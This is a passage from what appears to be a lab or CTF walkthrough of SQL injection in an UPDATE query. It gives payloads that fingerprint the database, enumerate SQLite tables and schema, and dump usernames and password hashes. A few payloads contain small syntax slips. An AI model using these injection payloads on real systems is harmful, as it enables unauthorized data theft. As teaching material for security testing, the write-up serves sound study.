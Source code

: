 - check source code for `placeholder` , `id`, `name` tags
```
nickName='test'
email='hacked'
```

The first test confirmed that the application is vulnerable and that we have the correct column names. If we had the wrong column names, then non of the fields would have been updated. Since both fields are updated after injecting the malicious payload, the original SQL statement likely looks something similar to the following code:
```sql
UPDATE <tableName> SET nickName='name', email='email' WHERE <condition>
```

With this knowledge, we can try to identify what database is in use. There are a few ways to do this, but the easiest way is to ask the database to identify itself. The following queries can be used to identify MySQL, MSSQL, Oracle, and SQLite:

```SQL
# MySQL & MSSQl
',nickname=@@version,email='

# Oracle
',nickName=(SELECT banner FROM V$VERSION),EMAIL='

# SQLite
',nickName=sqlite_version(),email'
```

Knowing what database we are dealing with makes it easier to understand how to construct our malicious queries. We can proceed to enumerate the database by extracting all the tables. In the code below, we perform a subquery to fetch all the tables from database and place them into the nickName field. The subquery is enclosed inside parantheses. The [group_concat()](https://sqlite.org/lang_aggfunc.html#groupconcat) function is used to dump all the tables simultaneously.

```sql
',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and table_name NOT like 'sqlite_%'),email='

',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='
```

By knowing the names of the columns, we can extract the data we want from the database. 
- For example, the query below will extract profileID, name, and passwords from usertable. The subquery is using the [group_concat()] function to dump all the information simultaneously, and the `||` operator is "concatenate" - it joins together the strings of its operands

```sql
# get the password
test',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='
```
After having dumped the data from the database, we can see that the password is hashed. This means that we will need to identify the correct hash type used if we want to update the password for a user. Using a hash identifier such as hash-identifier, we can identify the hash as SHA256:

